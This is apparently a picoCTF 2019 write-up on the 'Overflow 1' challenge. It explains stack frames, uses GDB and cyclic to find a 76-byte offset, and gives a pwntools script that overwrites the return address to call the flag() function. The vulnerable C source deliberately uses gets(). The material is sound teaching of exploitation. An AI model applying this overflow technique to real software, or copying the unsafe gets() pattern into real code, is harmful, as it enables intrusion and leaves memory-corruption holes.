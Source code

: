 [Back](PicoFrontPage.md)

# Overflow 1
---

### Intro
Overflow 1 focuses on the stack, more specifically, how function calls work, and thus, how we can exploit them.

### Tools
* GEF-GDB
* Pwntools - Python3
* Your favourite text editor

### Source Code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);

  printf("Woah, were jumping to 0x%x !\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Give me a string and lets see what happens: ");
  vuln();
  return 0;
}
```
Some important point(s):
* Calls `gets()`

#### Functions and Function Calls

When a function is called, first its parameters are thrown on the stack, then the instruction pointer (the return address), then the old base pointer, during all of this the stack pointer is constantly moving up to point to the top of the stack. Finally, the base pointer is moved up to match the stack pointer. Let's draw that out.

<!-- Insert BasicCall -->
![BasicCall](../Images/PicoCTF2019/BasicCall.jpg)

### Analysis

#### GEF-GDB

Fire up GDB for our executable (`gdb ./vuln`) and `info functions` to see all the different functions used.
You can find GDB cheat sheets online for more commands, those would be helpful.

Scrolling down, we can see some functions that are labelled `vuln` and `flag`.

<!-- Insert screenshot -->
![infofunctions](../Images/PicoCTF2019/infofunctions.jpg)

If we `disassemble main` we can also see that it calls the `vuln()` function.

<!-- Insert screenshot -->
![disasmain](../Images/PicoCTF2019/disasmain.jpg)

We can `disassemble vuln` to get a more in-depth view of what happens when `vuln` function is called.

<!-- Insert Screenshot -->
![disasvuln](../Images/PicoCTF2019/disasvuln.jpg)

If we draw this out, we can get a better understanding of what is happening.

Another important note is that, the vuln calls the `gets()` function and if we check the man page for `gets` we'll see:
`NEVER USE THIS FUNCTION`

<!-- Screenshot of man page -->
![NOGETS](../Images/PicoCTF2019/NEVERUSETHISFUNCTION.jpg)

The reason why `gets()` is extremely dangerous to use is because it will keep taking input until an EOF or newline is fed through. This allows us to overflow the buffer and leak into other important components of the stack. So in this case, we can overwrite the return address in `$eip`.

So drawing everything that was noticed before.

<!-- Insert stack image with measurements -->
![StackOverflow1](../Images/PicoCTF2019/StackOverflow1.jpg)

And thus, we can see that the buffer is `0x44`, `$ebx` is `0x4`, `$ebp` is `0x4` and `$eip` is `0x4`. (x86 32-bit has 32-bit registers = 4 bytes).
So adding them (except `$eip`), we can see that, to reach `$eip`, it is `0x4c` in hex.
Using Python on command line, we can see that `0x4c` translates to 76 bytes.
```
	python
	0x4c
```
And now we know how many bytes to feed it to reach the instruction pointer.
From here we can do neat things.

In this, we'll be making use of `cyclic`, a nice tool to help us count bytes easily.

First, give it a normal run without GEF.

1. It'll ask you for a string
2. You input a string
3. And it'll give another string output that apparently prints out the return address

Fire up the GDB again, and this time we're going to let it run through the debugger.
Now, open up another terminal and run the command `cyclic 100`, this will give you a string of 100 bytes to feed to the program.

So, let the program run through `r` or `run`, and we get met by a string output asking for our input.
Feed it the copied string generated from the `cyclic` command.

<!-- Insert the output screencap -->
![OverflowedOverflow1](../Images/PicoCTF2019/OverflowedOverflow1.jpg)

We can now see that the return address is different and we are met with a segmentation fault. This is because `0x61616174` (hex for taaa, little endian) does not actually exist, but what if we were to replace it with an address that DID exist and is in the form of a flag?
Back to the terminal with the `cyclic` command, or a new one if you closed it.
And we will be typing `cyclic -l taaa`. This will show the amount of bytes that are required to reach `taaa` or the instruction pointer (`$eip`).
We get the output of 76 and that just confirms our static analysis.

### EXPLOIT

So from here, we will be replacing the return address to the address of the flag function so that we can obtain the flag.
There are many ways to obtain the address of the flag function.
Something like doing `info functions` to find the address of the flag will work, anything goes, as long as it's right really.
`0x080485e6` - `flag()` address.

#### Pwntools

Here is the script:

```python
from pwn import *

proc = process('./vuln')

# variable for target address
addr = 0x080485e6

# set up payload, send 76 bytes of rubbish (the letter A in this case) and then the flag function address to overwrite the return address in little endian (xe6\x85\x04\x08)
payload = b'A'*76 + p32(addr)

proc.recvuntil(b'Give me a string and lets see what happens:')

proc.sendline(payload)

proc.interactive()
```

Run the exploit and win.

[Overflow 2](overflow2writeup.md)
